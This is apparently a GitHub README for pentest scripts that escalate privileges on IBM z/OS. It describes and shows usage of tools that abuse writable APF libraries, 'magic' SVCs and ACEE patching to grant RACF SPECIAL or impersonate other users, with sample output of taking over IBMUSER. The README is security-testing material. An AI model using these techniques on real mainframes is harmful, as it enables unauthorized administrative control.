 # Privilege escalation on z/OS

Some scripts to quickly escalate on z/OS given certain misconfigurations.  
These techniques have been around for a while, I just stringed some code together to have something easy to use in a pentest.

## ELV.APF    
### Description
This tool will list APF authorized libraries by browsing control blocks in memory. For each library it returns the access right of the current user.  
Given a library with ALTER/UPDATE access, the script compiles an ASM program into that library and executes it to give the SPECIAL privilege to the current user.
the ASM program updates the ACEE block in memory to give temporary SPECIAL privilege, which are made permanent by a regular ALU user SPECIAL a following step.
If you want to manually specify the user getting the SPECIAL privilege, replace userid() with any user in line 104

### Usage
 ```  
 List APF libraries : ex 'ELV.APF' 'LIST'
 Get Special: ex 'ELV.APF' '<APF_LIBRARY>'  
 ```
### Credit
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://mzelden.com/mvsutil.html  
http://zdevops.github.io/zdosu/ 

## ELV.SVC
### Description
This tool will go through user defined SVC looking for a "magic" or "auth" SVC.  
These are SVC generally used to temporarily grant admin privileges to normal users (in some instances installed by vendors)  
ELV.SVC looks for a specific pattern in each user SVC (num > 200) and if finds one dumps the SVC's opcode.  

The tool can also be used to call this "magic" SVC to grant SPECIAL privileges to the current user. It provides the possibility to defined a constant in a register before calling the target SVC to bypass some potential checks.
If you want to change the TSO command giving special privileges, alter line 334

### Usage
 ```  
 Look for magic SVC on TSO :  
     ex 'ELV.SVC'
 Get Special using SVC 233 and placing C1C1C1C1 in register 10: 
     ex 'ELV.SVC' 'NUM=233 10=C1C1C1C1 DSN=TEST.PDS
```  
### Credit
Got the idea from Mark Wilson @ich408i   
https://share.confex.com/share/120/webprogram/Handout/Session12275/2013%20Share%20Pen%20Testing.pdf
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://www.mzelden.com/mvsfiles/iplinfo.txt  


## ELV.SELF
The tool lists address spaces currently running on z/OS: started tasks, tso users and jobs  
The user can choose an address space to "impersonate" by stealing their ACEE structure.  
The tool will perform cross memory copy to steal the privileges of the target and patch the current TSO session  
Requirement : APF library with ALTER access OR "magic" SVC (see above)

### Usage
 ```  
List active address spaces  
 TSO> ex 'ELV.SELF' 'LIST'  
 
 *** Listing active address spaces ***
  
 **** Started Task - Owner *****
 NETVSSI   -
 NETVIEW   -
 NETVSAM   -
 RACF      -  START2
 JES2      -
 DLF       -
 RRS       -
 VLF       -
 LLA       -
 CICSTS32  -  START2
 RMF       -  START2
 NET       -  START2
 RMFGAT    -  START2
 TCPIP     -  TCPIP
 TSO       -  START1
 PORTMAP   -  START2
  
 **** TSO Users - Owner ****
 ZERO     -  ZERO
 IBMUSER   -  IBMUSER
  
 **** Jobs - Owner ****
 FTPD1     -  FTPD
 INETD4    -  OMVSKERN


Impresonate TSO user IBMUSER, using APF library  
TSO > ex 'ELV.SELF' 'TAR=IBMUSER APF=USER.LINKLIB'  
      
Warning: No RACF profile defined for USER.LINKLIB  
Might not be able to write to USER.LINKLIB  
Got ASID 80 for IBMUSER  
Got ASID 38 for current session  
Local ACEE at  008FC6F0  
Compiling  UNCVDDF in APF USER.LINKLIB  

TSO > LU
USER=IBMUSER  NAME=*******  OWNER=IBMUSER   CREATED=*****


Impresonate Started task CICSTS32, using magic SVC 233 (register 10 to AAAA to grant access)      
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233 10=C1C1C1C1'  
Impresonate Started task CICSTS32, using magic SVC 233     
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233'  
```  

